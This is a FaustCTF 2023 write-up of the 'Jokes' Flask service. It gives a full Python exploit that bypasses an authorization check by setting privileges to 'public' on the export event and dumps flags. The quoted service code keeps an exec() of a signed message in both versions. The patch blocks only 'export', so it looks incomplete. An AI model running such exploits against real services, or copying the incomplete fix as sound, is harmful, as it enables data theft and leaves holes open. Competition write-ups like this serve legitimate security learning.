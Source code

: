 ![FaustCTF 2023 Logo](https://2023.faustctf.net/img/faustctf.svg)

# FaustCTF 2023: Jokes

---

## Enumeration & Manual Exploitation
Jokes is a Webservice written in Python (Flask). It also uses an sqlite database to store both users and jokes. Jokes will be added by the flag bot later on and will contain flags. The problem is that they require higher privileges to view.

### Routes

The service consists of several different routes. The routes `/login`, `/register` and `/logout` are handling everything related to authentication. In this specific case, these routes are not very interesting for the further exploitation.

To create an alter the content of jokes, the services also consists of the routes `/review`, `/like-joke` and `/profile`. The first two are also not interesting. The code of `/profile` contains the following function:
```py
@app.route('/profile', methods=["POST"])
@login_required
def profile_post():
    if "message" in request.form:
        if not verify(request.form.get("message"), bytes.fromhex(request.form.get("hash"))):
            return Response("Not cool", 401)
        message = json.loads(request.form["message"])
        loc = {}
        exec(message["action"], None, loc)
        return loc["rv"]
    if event := request.form.get("event"): # Checks the post parameter 'event'. Depending on this parameter, different code gets executed 
        if request.form.get("privileges") == "admin": # Checks if User has admin priviliges
            if flask_login.current_user != "admin":
                return render_template("unauthorized.html", joke=Joke.query.filter_by(draft=False, under_review=False).order_by(func.random()).first()), 401
            else:
                return eventhandler[AdminEvent(event)]()
        elif request.form.get("privileges") == "public": # Public view. 
            return eventhandler[PublicEvent(event)]() # Note that there is no valid check whether or not we have the proper permissions to execute the service. Just doing PublicEvent() is in this case not enough!
    return profile()
```

#### Why is that check not enough?
The code for handling events looks like the following:
```py
# events.py
class AbstractEvent(ABC, str):
    @abstractmethod
    def hidden(self):
        pass


class PublicEvent(AbstractEvent):
    hidden = False

    def __init__(self, category):
        pass # removed for simplicity


class AdminEvent(AbstractEvent):
    hidden = True

    def __init__(self, category):
        self.category = category


eventhandler = dict()


def register_event(event, handler, admin=True):
    if admin:
        eventhandler[AdminEvent(event)] = handler
    else:
        eventhandler[PublicEvent(event)] = handler

# main.py
def init_eventhandler():
    register_event("submit", app.submit_joke, False)
    register_event("review", app.review, False),
    register_event("export", app.export, False)
    register_event("backup", app.backup)

```

To show that the check that is currently implemented is not enough, we can try the following:
```py
print(f"Eventhandler: {eventhandler}")
print(f"""AdminEvent: {eventhandler[AdminEvent("backup")]}""")
print(f"""PublicEvent: {eventhandler[PublicEvent("backup")]}""")
print(f"""String: {eventhandler["backup"]}""")
```
Output:
```py
Eventhandler: {'submit': <function backup at 0x00000179C6FEA020>, 'review': <function backup at 0x00000179C6FEA020>, 'export': <function backup at 0x00000179C6FEA020>, 'backup': <function backup at 0x00000179C6FEA020>}
AdminEvent: <function backup at 0x00000179C6FEA020>
PublicEvent: <function backup at 0x00000179C6FEA020>
String: <function backup at 0x00000179C6FEA020>
```
As you can see, we always get the pointer to the same function. It does not matter if we create an AdminEvent, PublicEvent or even string. Because of that, the check that was mentioned above is not enough to check for permissions!

## Exploitation
Using our new intel about the service, the following exploit can be created:

```py
#!/usr/bin/env python3

import os
import json
import time
import random
import string
import requests


### HELPERS ###
def gen_random(n):
    return ''.join(random.choice(string.ascii_lowercase + string.ascii_uppercase) for i in range(n))

headers = {'User-Agent': 'python-requests/2.29.0',
           'Accept-Language': 'en-US,en;q=0.5',
           'Content-Type': 'application/x-www-form-urlencoded',
           'Upgrade-Insecure-Requests': '1'}

### END HELPERS ###

HOST = os.getenv('TARGET_IP') # Will automatically be set by our attack platform!
#HOST = "fd66:666:1::2"

session = requests.session()
username = gen_random(5)
password = gen_random(5)

data = {
    "name": username,
    "password": password
}

session.post(f"http://[{HOST}]:5000/register", headers=headers, data=data) # Create a new user

session.post(f"http://[{HOST}]:5000/login", headers=headers, data=data) # Login as the new user


expoort_body = {
    "privileges": "public",
    "event": "export"
} # This is the main part of the exploit. The service never enforces the privilege policy. Because of that, we can set the priviliges to public and circumvent any restriction measurements. By default the privileges of this request are set do "admin"

req = session.post(f"http://[{HOST}]:5000/profile", headers=headers, data=expoort_body) # Get backup using the "export" event to dump all existing jokes

print(req.text)
```

Example output:
```py
{"Animal":["Q: Can a kangaroo jump higher than the Empire State Building? A: Of course. The Empire State Building can't jump.","Q: Why couldn't the leopard play hide and seek? A: Because he was always spotted."],"Blonde":["A blonde, a redhead, and a brunette were all lost in the desert. They found a lamp and rubbed it. A genie popped out and granted them each one wish. The redhead wished to be back home. Poof! She was back home. The brunette wished to be at home with her family. Poof! She was back home with her family. The blonde said"],"Dad":["FAUST_tpYmKVpLTCWDsOIZXa2APD6awRFBhfxi", "FAUST_6SgoNljU4hikeipPGRNA0VkYZdI4UqDI", "FAUST_bcjJuN9LKGDir5gzIHPkbEA9XfvpHwKv"]}
```
By altering the value of the privileges key from `admin` to `public` in the last request to `/profile`, we can export every joke that has been created even though we are not administrator.

## Patching
To patch the exploit, the only thing we have to do is to block access to the export function if we are not an administrator. The following code shows a patched verion of the service:
```py
@app.route('/profile', methods=["POST"])
@login_required
def profile_post():
    if "message" in request.form:
        if not verify(request.form.get("message"), bytes.fromhex(request.form.get("hash"))):
            return Response("Not cool", 401)
        message = json.loads(request.form["message"])
        loc = {}
        exec(message["action"], None, loc)
        return loc["rv"]
    if event := request.form.get("event"):
        if request.form.get("privileges") == "admin":
            if flask_login.current_user != "admin":
                return render_template("unauthorized.html", joke=Joke.query.filter_by(draft=False, under_review=False).order_by(func.random()).first()), 401
            else:
                return eventhandler[AdminEvent(event)]()
        elif request.form.get("privileges") == "public":
            if request.form.get("event") == "export" and flask_login.current_user != "admin": # Check for admin privileges
              return render_template("unauthorized.html", joke=Joke.query.filter_by(draft=False, under_review=False).order_by(func.random()).first()), 401  # Throw error if not permitted

            return eventhandler[PublicEvent(event)]()
    return profile()
```

If we now try the exploit from before, we get the following error message:
```html
<!DOCTYPE html>
<html lang="en">

<head>
    <meta charset="utf-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1">
    <title>Jokes</title>
    <link rel="stylesheet" href="../static/stylesheet/bulma.min.css">
</head>
<style>p {
    word-break: break-all;
    white-space: break-spaces;
}
.column{
    margin: 5px
}
.buttons{
    display: flex;
  justify-content: space-around;
}
.like-button-container {
    display: flex;
    flex-direction: row;
    align-items: center;
    justify-content: flex-end;
    margin-top: 10px; /* Adjust the margin as needed */
}
.like-button{
    background: #ffffff;
      border: 1px solid #000000; /* Green */
}

</style>
<body>
<div class="container has-text-centered"
     style="width: 100%; position: fixed; left: 50%; top: 50%; transform: translate(-50%, -50%);">

<h1>Your privileges are not sufficient.. but here's a joke: </h1>
    Q: Why did the witches&#39; team lose the baseball game? A: Their bats flew away.

</div>
</body>

</html>
```
